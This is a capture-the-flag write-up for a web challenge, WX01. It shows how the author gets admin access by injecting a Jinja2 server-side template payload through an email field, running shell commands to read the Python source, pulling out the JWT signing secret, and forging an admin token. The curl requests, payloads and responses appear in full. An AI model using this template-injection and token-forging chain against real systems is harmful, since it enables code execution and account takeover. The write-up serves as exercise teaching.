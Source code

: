 # WX01
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![1000 score](https://img.shields.io/badge/category-1000-blue.svg)

## Briefing
> Access the url at: https://cfta-wx01.allyourbases.co and find a way to login to the admin portal to get the flag.

> Note: You have been provided with the following credentials to help you:

> username: `tim`

> password: `berners-lee`

## Solution

### The API Endpoint

The API this web application uses for authentication is all on one endpoint, just with different parameter values to do different things.

`action` can have one of these values assigned: `help`, `verify`, or `login`.
`help` requires an `email` parameter, `verify` requires a `token`, and `login`, requires a `username` and `password`.

> Note: We can determine these parameters by viewing the source code of the page. The javascript makes three POST requests with these values.

**We are given a set of credentials, so let's login first with a POST request:**
```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"action":"login","username":"tim","password":"berners-lee"}' \
  https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01
```
As a response, we get a JWT token.
```bash
{"statusCode": 200, "body": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ"}
```

If you attempt to verify using this token, you realize that you are not qualified to get the token since `tim` is not `admin` :(
```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"action":"verify","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ"}' \
  https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01
```
```bash
{"statusCode": 200, "body": "Insufficient Privileges"}
```

At this point, I tried to bypass authentication using the JWT token. These attempts included:
*Spoiler: it didn't work*
* Changing the `alg` field to "none"
* Changing the `username` and `role` fields in the token body to "admin"
* Brute forcing the HMAC-SHA256 JWT token with `rockyou.txt` to find the signing secret (I would not recommend)

*However*, we have overlooked the email function on the application. Submitting something gives you this output:
![image](https://user-images.githubusercontent.com/69332964/114027526-751e0880-9845-11eb-812b-d586d98d3225.png)

**Our user input** is displayed on the webpage, so this means its time for **injection**! In this case, it's SSTI (server-side template injection) because:
1. If you make the API throw an error, you realize that the file is `lambda_function.py`- Python
2. Nothing else works...

Now, the clear goal is to dump the secret!

### Exploiting
Since this is SSTI, we can place commands in `{{ }}`, like {{1 + 1}} (which would print out 2).
This command pops open a shell: `globals().__builtins__.__import__('os').popen('your command').read()`, and we know the file is called `lambda_function.py`.

> Note: We are assuming the secret is being used in the file somewhere to sign the JWT token.

```json
{
    "action":"help",
    "email":"{{ globals().__builtins__.__import__('os').popen('cat lambda_function.py').read() }}"
}
```
I sent this JSON payload with [Postman](postman.com), to get:

```bash
{
    "statusCode": 200,
    "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: from jinja2 import Template\nimport json\nimport urllib\nimport jwt\nimport os\n\n# JWT Key\nkey = \"aversion-chute-freeway-corporal\"\nalgo = \"HS256\"\n\ndef getHelp(event):\n    email = ''.join(event['email'])\n    template = \"\"\"\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: %s</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    \"\"\" % (urllib.parse.unquote(email).replace(\"<\", \"&lt;\").replace(\">\", \"&gt;\"))\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n    msg = msg[:-len(msg)+700]\n    return msg\n\ndef login(event)"
}
```
Nice! We have the key now: `aversion-chute-freeway-corporal`

#### Now, we just have to create our own JWT token with `admin`, signing it with this secret.
Head to jwt.io, and paste our original JWT token in the editor.
![image](https://user-images.githubusercontent.com/69332964/114029427-7bad7f80-9847-11eb-92cd-55b68e7c2453.png)

Edit the parameters like so to get: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.rWXZDsx6adPKPL1EYyShsuUjYLF-mRr-rM3yM32DpZ0`

Lastly, we send a last POST request to verify the token and get the flag!
```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"action":"verify","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.rWXZDsx6adPKPL1EYyShsuUjYLF-mRr-rM3yM32DpZ0"}' \
  https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01
```
```bash
{
    "statusCode": 200,
    "body": "muLtiStagingIT710-12"
}
```
## Flag
Flag: `muLtiStagingIT710-12`